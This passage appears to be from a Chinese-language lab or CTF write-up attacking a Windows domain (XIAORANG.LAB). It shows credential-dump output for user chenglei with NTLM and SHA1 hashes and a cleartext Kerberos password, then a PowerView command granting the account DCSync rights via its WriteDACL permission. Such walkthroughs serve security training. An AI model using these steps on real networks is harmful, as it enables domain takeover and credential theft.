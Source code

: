 ```plain
SID               : S-1-5-21-3269458654-3569381900-10559451-1105
    msv :   
     [00000003] Primary
     * Username : chenglei
     * Domain   : XIAORANG
     * NTLM     : 0c00801c30594a1b8eaa889d237c5382
     * SHA1     : e8848f8a454e08957ec9814b9709129b7101fad7
     * DPAPI    : 89b179dc738db098372c365602b7b0f4
    tspkg : 
    wdigest :   
     * Username : chenglei
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : chenglei
     * Domain   : XIAORANG.LAB
     * Password : Xt61f3LBhg1
```

查看下用户在域内的权限，

发现`chenglei`用户在`ACL Admin`组中

[![](assets/1706496403-cef250cfdb6b91617a11520806c040b5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121455-a081ef30-bcca-1.png)

意味着这个用户拥有 WriteDACL 权限，我们可以登录 chenglei 的远程桌面使用`powerview`给 chenglei 账号添加 DCSync 权限

### RDP 登录

用刚刚抓取的密码进行登录，导入 Powerview，添加 DCSync 权限

```plain
Add-DomainObjectAcl -TargetIdentity 'DC=xiaorang,DC=lab' -PrincipalIdentity chenglei -Rights DCSync -Verbose
```
